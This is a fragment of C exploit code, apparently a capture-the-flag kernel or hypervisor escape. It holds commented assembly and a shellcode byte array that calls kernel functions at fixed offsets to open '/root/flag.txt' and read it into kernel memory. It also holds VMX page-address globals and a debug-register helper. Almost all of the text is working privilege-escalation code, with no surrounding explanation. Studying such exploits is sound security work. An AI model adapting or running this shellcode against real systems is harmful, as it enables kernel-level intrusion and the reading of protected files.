 ```c
    // r10 is filp_ptr
    mov r10, rax

    // kernel_read
    mov r11, r12
    add r11, 0x294c70

    // writeable kernel address
    mov r9, r12
    add r9, 0x18ab000

    mov rdi, r10
    mov rsi, r9
    mov rdx, 0x100
    mov rcx, 0

    call r11

    pop rax
    pop rax

    pop rsi
    pop rdi
    pop r13
    pop r14
    pop r12
    pop r11
    pop r10
    pop r9
    pop rdx
    pop rcx
    pop rbx
    pop rax
*/

const uint8_t shellcode[] = "\x50\x53\x51\x52\x41\x51\x41\x52\x41\x53\x41\x54\x41\x55\x41\x56\x57\x56\x48\xb8\x04\x00\x00\x00\x00\xfe\xff\xff\x48\x8b\x00\x48\x2d\x00\x8e\x00\x01\x49\x89\xc4\x4d\x89\xe5\x49\x81\xc5\xd0\xda\x0b\x00\x4d\x89\xe6\x49\x81\xc6\xa0\x2c\xa5\x01\x4c\x89\xf7\x41\xff\xd5\x4d\x89\xe3\x49\x81\xc3\x20\x24\x29\x00\x48\xb8\x61\x67\x2e\x74\x78\x74\x00\x00\x50\x48\xb8\x2f\x72\x6f\x6f\x74\x2f\x66\x6c\x50\x48\x89\xe7\x48\xc7\xc6\x00\x00\x00\x00\x41\xff\xd3\x49\x89\xc2\x4d\x89\xe3\x49\x81\xc3\x70\x4c\x29\x00\x4d\x89\xe1\x49\x81\xc1\x00\xb0\x8a\x01\x4c\x89\xd7\x4c\x89\xce\x48\xc7\xc2\x00\x01\x00\x00\x48\xc7\xc1\x00\x00\x00\x00\x41\xff\xd3\x58\x58\x5e\x5f\x41\x5d\x41\x5e\x41\x5c\x41\x5b\x41\x5a\x41\x59\x5a\x59\x5b\x58";

uint64_t vmxon_page_pa, vmptrld_page_pa;

static __always_inline unsigned long long native_get_debugreg(int regno)
{
    unsigned long val = 0;    /* Damn you, gcc! */

    switch (regno) {
    case 0:
        asm("mov %%db0, %0" :"=r" (val));
        break;
    case 1:
        asm("mov %%db1, %0" :"=r" (val));
        break;
    case 2:
        asm("mov %%db2, %0" :"=r" (val));
        break;
    case 3:
        asm("mov %%db3, %0" :"=r" (val));
        break;
```